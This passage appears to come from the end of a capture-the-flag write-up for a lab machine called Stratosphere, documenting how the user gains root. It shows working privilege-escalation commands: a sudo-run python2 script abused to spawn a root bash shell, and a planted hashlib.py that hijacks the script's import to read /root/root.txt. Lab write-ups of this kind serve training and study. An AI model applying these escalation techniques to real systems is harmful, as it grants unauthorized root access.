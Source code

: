 ```bash
richard@stratosphere:~$ ls -la /usr/bin/python*
lrwxrwxrwx 1 root root      16 Feb 11  2018 /usr/bin/python -> /usr/bin/python3
lrwxrwxrwx 1 root root       9 Jan 24  2017 /usr/bin/python2 -> python2.7
-rwxr-xr-x 1 root root 3779512 Nov 24  2017 /usr/bin/python2.7
lrwxrwxrwx 1 root root       9 Jan 20  2017 /usr/bin/python3 -> python3.5
-rwxr-xr-x 2 root root 4747120 Jan 19  2017 /usr/bin/python3.5
-rwxr-xr-x 2 root root 4747120 Jan 19  2017 /usr/bin/python3.5m
lrwxrwxrwx 1 root root      10 Jan 20  2017 /usr/bin/python3m -> python3.5m

```

**JACKPOT**

We can know get root easily with the following command

```
richard@stratosphere:~$ sudo /usr/bin/python2 /home/richard/test.py
__import__("os").system("/bin/bash") 
root@stratosphere:/home/richard# 

```

### root.txt

```
root@stratosphere:~# wc -c root.txt
33 root.txt
```



### Alternative

Note that `test.py` import `hashlib`, which means that we can create `hashlib.py` on the same directory as the `test.py` and test.py will run our own `hashlib.py`

```
richard@stratosphere:~$ cat hashlib.py
import os
os.system('cat /root/root.txt')

richard@stratosphere:~$ sudo /usr/bin/python2 /home/richard/test.py
> root.txt : d41d8cd98f00b204e9800998ecf8427e
Solve: 5af003e100c80923ec04d65933d382cb

```

But as we all know. Having a shell is more fun. But we can literally write anything in `hashlib.py`.



# FIN
